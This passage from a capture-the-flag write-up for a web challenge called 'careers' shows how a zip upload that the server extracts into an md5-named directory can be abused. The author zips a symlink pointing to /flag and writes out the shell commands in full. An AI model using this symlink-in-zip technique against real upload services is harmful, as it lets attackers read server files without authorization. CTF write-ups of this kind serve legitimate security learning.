 ![test.JPG](images/test.JPG)

And by browsing to the link [https://careers.chal.intentsummit.org/upload/ce2270b76ec1cd760603f48582f205b9](https://careers.chal.intentsummit.org/upload/ce2270b76ec1cd760603f48582f205b9) we get:

![link.JPG](images/link.JPG)

And by clicking on [https://careers.chal.intentsummit.org/upload/ce2270b76ec1cd760603f48582f205b9/test.txt](https://careers.chal.intentsummit.org/upload/ce2270b76ec1cd760603f48582f205b9/test.txt) we get our text as expected.

Meaning that the web server make a ```md5sum``` on our zip file which is ```ce2270b76ec1cd760603f48582f205b9``` and extract the files into this directory.

Because we can create a zip file with ```symlink``` include we can get the flag by creating a ```symlink``` to the ```/flag``` file as follow:
```console
┌─[evyatar9@parrot]─[/intent_ctf/web/careers]
└──╼ $ ls
┌─[evyatar9@parrot]─[/intent_ctf/web/careers]
└──╼ $ ln -s /flag test.txt 
┌─[evyatar9@parrot]─[/intent_ctf/web/careers]
└──╼ $ zip --symlinks sym.zip *
  adding: test.txt (stored 0%)
```
